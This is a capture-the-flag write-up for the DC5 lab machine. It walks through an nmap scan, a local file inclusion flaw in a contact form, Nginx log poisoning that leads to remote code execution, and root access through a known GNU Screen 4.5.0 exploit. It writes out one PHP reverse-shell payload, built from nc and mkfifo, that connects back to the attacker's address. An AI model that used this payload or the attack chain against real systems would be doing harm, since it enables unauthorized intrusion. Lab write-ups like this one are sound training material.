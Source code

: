 ```yaml
---
title: DC5 Offensive Security Writeup
tags: [writeup, offsec, LFI, RCE, Nginx, log, poison,SETUID, screen]
style: border
color: success
description: DC5 Offensive Security Writeup
---
```


![logo](../assets/img/dc5-offsec-writeup/1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](../assets/img/dc5-offsec-writeup/2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](../assets/img/dc5-offsec-writeup/3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](../assets/img/dc5-offsec-writeup/4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](../assets/img/dc5-offsec-writeup/5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](../assets/img/dc5-offsec-writeup/6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](../assets/img/dc5-offsec-writeup/7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](../assets/img/dc5-offsec-writeup/9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](../assets/img/dc5-offsec-writeup/10.png)

#### Result testing Remote Code Execute (RCE)
![](../assets/img/dc5-offsec-writeup/11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

#### PoC Log Poisoning + RCE
![](../assets/img/dc5-offsec-writeup/12.png)

#### Result PoC Log Poisoning + RCE
![](../assets/img/dc5-offsec-writeup/13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

We read the flag of *user.txt*.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](../assets/img/dc5-offsec-writeup/14.png)

#### Result reverse shell code
![](../assets/img/dc5-offsec-writeup/15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.

![](../assets/img/dc5-offsec-writeup/16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](../assets/img/dc5-offsec-writeup/17.png)
